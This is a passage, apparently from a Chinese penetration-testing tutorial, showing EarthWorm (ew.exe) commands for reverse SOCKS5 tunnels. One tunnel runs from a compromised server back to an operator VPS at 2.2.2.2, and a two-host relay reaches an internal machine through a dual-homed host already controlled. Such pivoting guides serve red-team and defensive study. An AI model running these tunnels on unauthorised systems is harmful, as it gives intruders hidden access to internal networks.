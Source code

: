

说明：服务器开启端口为888，SOCKS的代理。然后使用sockscap64添加这个IP的代理就可以使用了。



### 2、反弹socks v5服务器  【适用于目标机器没有公网IP，但可访问内网资源】



本地执行以下命令：

ew.exe -s rcsocks -l 1008 -e 888



说明：该命令的意思是在我们公网VPS上添加一个转接隧道，把1080端口收到的代理请求转交给888端口。



服务器端执行以下命令：

ew.exe -s rssocks -d 2.2.2.2 -e 888



说明：该命令的意思是在服务器上启动SOCKS V5服务，并反弹到IP地址为2.2.2.2的服务器888端口上。


### 二级网络环境（一）



假设我们获得了右侧A主机和B主机的控制权：



A主机配有2块网卡，一块连通外网，一块10.48.128.25只能连接内网B主机，无法访问内网其它资源。



B主机可以访问内网资源，但无法访问外网。



A.先上传ew到B主机，利用ssocksd方式启动888端口的SOCKS代理，命令如下：

ew -s ssocksd -l 888



B.上传ew到右侧A主机，运行下列命令：

ew -s lcx_tran -l 1080 -f 10.48.128.49 -g 888



说明：该命令意思是将1080端口收到的代理请求转交给B主机（10.48.128.49）的888端口。



C.可以通过访问A主机外网139.XXX.XX.113:1080来使用在B主机架设的socks5代理。



### 网络环境（二）



假设我们获得了右侧A主机和B主机的控制权限：

